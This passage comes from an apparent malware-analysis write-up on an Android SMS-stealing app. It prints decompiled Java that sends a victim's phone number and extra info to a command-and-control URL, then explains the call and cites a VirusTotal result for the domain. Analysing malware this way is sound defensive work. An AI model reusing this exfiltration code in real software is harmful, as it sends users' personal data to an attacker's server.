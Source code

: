 ```java
        AndroidNetworking.get("https://eblaqie.org/ratsms.php?phone=" + str + "&info=" + str2).build().getAsJSONArray(new JSONArrayRequestListener(this, str, str2) {
            final connect this$0;  
            final String val$info;  
            final String val$url;  
 
            {  
                this.this$0 = this;  
                this.val$url = str;  
                this.val$info = str2;  
            }  
   
            public void onError(ANError aNError) {  
                Log.i("==================", "erroeererewrwerwer");  
                AndroidNetworking.get("https://google.com" + this.val$url + "&info=" + this.val$info).build().getAsJSONArray(new JSONArrayRequestListener(this) {
                    final AnonymousClass1 this$1;  
 
                    {  
                        this.this$1 = this;  
                    }  
 
                    public void onError(ANError aNError2) {  
                        Log.i("==================", "erroeererewrwerwer");  
                    }  
 
                    public void onResponse(JSONArray jSONArray) {  
                    }  
                });  
            }  
 
            public void onResponse(JSONArray jSONArray) {  
            }  
        });  
    }  
}
```

This function is very simple. It sends a request to `"https://eblaqie.org/ratsms.php?phone=" + arg1 + "&info=" + arg2` (For instance in the call we've seen in main it would contact `https://eblaqie.org/ratsms.php?phone=THE_PHONE_NUMBER_IN_THE_EDITTEXT&info=شماره موبایل خود را وارد نمایید` to signify that the malware got a new target) and the performs some error checking. Unfortunately, `eblaqie.org` is down now (I've also checked on WaybackMachine) so we can't test this further, but Virustotal shows that the site is malicious:
![virustotal-anal](/assets/img/smsstealer/virustotal_of_c2.png)
_The VirusTotal Analysis_
Now let's analyze `MainActivity2`:
